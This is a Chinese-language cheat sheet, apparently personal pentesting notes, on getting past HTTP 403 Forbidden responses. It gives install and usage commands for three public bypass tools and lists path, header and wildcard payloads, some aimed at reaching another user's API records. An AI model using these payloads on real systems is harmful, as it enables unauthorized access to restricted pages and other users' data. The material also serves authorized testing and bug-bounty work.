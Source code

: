 # 几个工具
## 1、byp4xx

`https://github.com/lobuhi/byp4xx`  <br>
安装： <br>

```shell
git clone https://github.com/lobuhi/byp4xx.git
cd byp4xx
chmod u+x byp4xx.py
./byp4xx.py
or
python3 byp4xx.py
```

或者使用pip安装：<br>

`pip install git+https://github.com/lobuhi/byp4xx.git` <br>
使用方法： <br>

`python3 byp4xx.py <cURL options> <target>`
示例： <br>

`python3 byp4xx.py https://www.google.es/test` <br>
byp4xx还自带了一个不错的字典，当使用默认参数测试完毕后，它会询问你是否使用自带的字典再跑一遍： <br>
![img.png](img.png)


## 2、Bypass-403

`https://github.com/iamj0ker/bypass-403`


安装：

```shell
git clone https://github.com/iamj0ker/bypass-403
cd bypass-403
chmod +x bypass-403.sh
sudo apt install figlet  #依赖安装
```


使用方法：

```shell
/bypass-403.sh https://example.com admin
或
./bypass-403.sh website-here path-here
```


## 3、forbinddenpass

`https://github.com/gotr00t0day/forbiddenpass`

安装：

```shell
git clone https://github.com/gotr00t0day/forbiddenpass.git

cd forbiddenpass

pip3 install -r requirements.txt

python3 forbiddenpass.py -h
```


使用方法：

`forbiddenpass.py [-h] [-p domain.com] [-d filename.txt] [-t site.com]`

示例：


```shell
python3 forbiddenpass.py -d domains.txt

python3 forbiddenpass.py -d domains.txt --path login

python3 forbiddenpass.py -t https://site

python3 forbiddenpass.py -t https://site --path login

```

# 403 tricks
## 403 Bypass tricks
https://twitter.com/mamunwhh/status/1496786769316294659
```
Bypass 403 on /api/v1/user/id

/api/v1/user/id.json
/api/v1/user/id?
/api/v1/user/id/
/api/v2/user/id
/api/v1/user/id&accountdetail
/api/v1/user/yourid&victimid
X-Original-URL: /api/v1/user/id/


```


## trick01
https://systemweakness.com/how-i-bypassed-403-forbidden-domain-using-a-simple-trick-c2d538de04b8

```
dig redacted.com

```
![img_1.png](img_1.png)

要点: 从 `$dig target.com `知道 CNAME 后.....如何获得 200 ....🤔🤔 ====>在浏览器中点击 cname



## trick02
https://twitter.com/remonsec/status/1290354885850886144
```shell
$ http://site.com/wp-admin/install.php > 403
$ http://site.com/wp-admin/install.php/* > 200
```
![img_2.png](img_2.png)

## trick03
https://twitter.com/iam_j0ker/status/1303658167205728256
![img_3.png](img_3.png)


还有一个工具仓库:<br>
https://github.com/yunemse48/403bypasser


## 重要ppt

https://docs.google.com/presentation/d/1ek6DzXKBQd6xUiVNGRT33pMACs8M13CSoYCkgepDKZk/edit#slide=id.gb344e2d586_0_278

已经下载了!!!

## tricks04
https://twitter.com/h4x0r_dz/status/1317218511937261570
![img_4.png](img_4.png)

![img_5.png](img_5.png)

![img_6.png](img_6.png)


## tricks05
https://github.com/Dheerajmadhukar/4-ZERO-3

## 一篇总结性文章

https://mp.weixin.qq.com/s/N32dGX3a6OYpaQa4a_EDrQ


## tip06
![img_7.png](img_7.png)

`/;/`;`/.;/`;`//;//`;

例如:`/.;/example.so`


## tips07
https://twitter.com/intigriti/status/1454412777011879941/photo/1

![img_8.png](img_8.png)

